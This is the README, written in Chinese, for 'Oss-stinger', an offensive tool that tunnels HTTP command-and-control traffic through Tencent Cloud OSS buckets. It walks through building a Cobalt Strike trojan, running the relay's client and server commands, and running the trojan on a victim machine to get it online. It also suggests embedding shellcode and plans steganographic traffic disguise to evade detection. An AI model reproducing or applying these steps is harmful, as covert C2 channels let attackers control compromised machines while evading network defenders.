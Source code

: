 # Oss-stinger
利用腾讯云oss，来转发http流量

可以用来cs/msf上线等

# 如何使用
```
.\oss-stinger.exe
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080
  -id string
        输入你的腾讯云SecretID
  -key string
        输入你的腾讯云SecretKey
  -mode string
        client/server 二选一
  -url string
        输入你腾讯云OSS桶的url地址
```
首先，现在cs生成一个http的listen，并把host都改成127.0.0.1，然后生成木马
![1.jpg][1]
**然后再把Host改会公网IP(这步很重要)**

然后去腾讯云，申请一个oss桶。拿到URL
![2.jpg][2]
然后再去 `https://console.cloud.tencent.com/cam/capi` 拿到SecretKey和SecretID。

然后就可以使用我们的工具了，先在客户机上起一个转发器，使用命令

```
oss-stinger.exe -mode client -url oss桶的url地址 -address 127.0.0.1:端口 -id 腾讯云SecretID -key 腾讯云SecretKey
```

然后服务器运行
```
oss-stinger.exe -mode server -url oss桶的url地址 -address 127.0.0.1:端口 -id 腾讯云SecretID -key 腾讯云SecretKey
```

然后在客户机双击你的木马，就能上线了
![3.jpg][3]

# tips
如果要弄成一个文件，自行修改代码把shellcode加入进去然后用`go runshellcode()`即可。

secretkey和secretid的安全问题，目前没有什么好的解决方案，可以考虑弄一个动态下发的。自己修改吧

# TODO

 - 修改流量特征（纯Base64太蠢了，预计后续看看能不能弄成一个图片隐写来传输流量）
 - 自定义OSS交换文件（其实这只要改几行代码就行，但是我就是纯纯懒狗一条）
 - 添加阿里云/aws等支持（其实下个sdk调用调用就行了，但是我还是就是懒狗一条）
 - 添加其他协议支持（可能会咕，TCP这种无状态的长连接不太好处理，但是也不是不能处理，让我想想）


  [1]: https://9bie.org/usr/uploads/2022/11/1936167440.jpg
  [2]: https://9bie.org/usr/uploads/2022/11/1255060018.jpg
  [3]: https://9bie.org/usr/uploads/2022/11/2171996492.jpg